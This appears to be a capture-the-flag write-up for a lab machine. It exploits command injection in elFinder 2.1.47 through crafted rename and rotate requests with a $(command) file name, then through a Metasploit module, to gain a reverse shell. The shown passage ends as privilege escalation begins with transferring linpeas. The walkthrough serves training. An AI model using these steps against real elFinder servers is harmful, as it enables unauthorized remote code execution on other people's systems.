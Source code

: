 With that applicaton we can view and open a bunch of text files.
In the `credentials.txt` we find `think : nopassword`.
Also clicking the info button we can find the application version: 2.1.47.

A rapid search online shows that this version is vulnerable to code injection.
Let's reproduce it:
If you want to do it manually step by step folllow this report:https://www.synacktiv.com/ressources/advisories/elFinder_2.1.47_Command_Injection.pdf

enable Brup Proxy, than choose an image and upload it you sohuld see and URL like:
```http
GET /elFinder/php/connector.minimal.php?cmd=ls&target=l1_Lw&intersect%5B%5D=mullvad_browser.png&reqid=19692fd666d9e
```

Now rename the file to $(command_to_execute):
```http
GET /elFinder/php/connector.minimal.php?cmd=rename&name=%24(command_to_execute).png&target=l1_bXVsbHZhZF9icm93c2VyLnBuZw&reqid=1969308e29938c
```

Fianlly invoke the rotation feature to trigger the command execution!
If you choose this method ensure to have a listener ready and put a reverse shell payload as the command.

Otherwise we can leverage a metasploit module:
```
msfconsole
```
```bash
use unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

Metasploit do not follow our hosts file for DNS queries, if not setted,  so for the moment let's add a static entry:
```bash
dns add-static files.lookup.thm MACHINE_IP
```

Now set:
```bash
set rhosts files.lookup.thm
```
```bash
set rhost YOUR_IP
```
```
run
```

Anyway you choosed by now you should have a shell as "www-data".

<br/>

### Privilege Escalation
Now we need to move to the "think" user.
First thing, uprade your shell. (I made a guide [here]() )
From my machine i transfered the `linpeas.sh` script on the target using a python HTTP server:
```bash
python3 -m http.server
```
